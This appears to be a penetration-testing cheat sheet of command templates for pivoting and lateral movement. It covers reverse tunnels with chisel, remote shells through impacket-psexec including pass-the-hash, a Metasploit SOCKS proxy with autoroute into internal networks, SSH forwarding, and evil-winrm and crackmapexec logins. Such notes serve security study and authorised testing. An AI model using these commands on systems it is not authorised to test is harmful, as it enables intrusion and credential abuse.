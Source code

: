 # Tools

`chisel` Tunneling.
`impacket-psexec` Remote access.
`nc` Connections.
`proxychains` Tunneling.
`socat` Tunneling.
`ssh` Remote connections, tunneling.
`sshuttle` Tunneling.

# Chisel

Server
`chisel server -p port --reverse`

Client
`chisel client server_ip:server_port R:local_port:client_ip:client_port`

# PsExec

Using Creds
`impacket-psexec domain/user:pass@ipaddress`

Using Hash
`impacket-psexec domain/user@ipaddress -hashes ntlmhashpart1:ntlmhashpart2`

# Socks Proxy

## Method 1

Metasploit
```
search socks
use auxiliary/server/socks_proxy
run
```

Edit attacker /etc/proxychains.conf
```
[ProxyList]
socks5 127.0.0.1 1080
```

Enable autoroute in Metasploit to automatically route all internal networks of the remote system back to us through Socks Proxy
```
search autoroute
use post/multi/manage/autoroute
set session sessionnumber
run
```

# SSH

Connect Using SSH Key
```
chmod 600 id_rsa
ssh -i id_rsa user@host
```

Local Port Forwarding
`ssh [-fNT to run in bg] -L [local_addr:]:local_port:remote_addr:remote_port [user@]gateway_addr`

Remote Port Forwarding
`ssh [-fNT to run in bg] -R [remote_addr:]remote_port:local_addr:local_port [user@]gateway_addr`

Dynamic Port Forwarding
```
ssh -D port user@target

Can configure browser proxy, e.g., FoxyProxy, for web access.

To proxychains this, edit /etc/proxychains4.conf:
socks5 127.0.0.1 port username password
```

# wmiexec

`impacket-wmiexec domain/username:password@ipaddress`

# WinRM

Evil-WinRM
`evil-winrm -i ipaddress -u username -p password`

CrackMapExec
`crackmapexec winrm ipaddress -u username -p password`
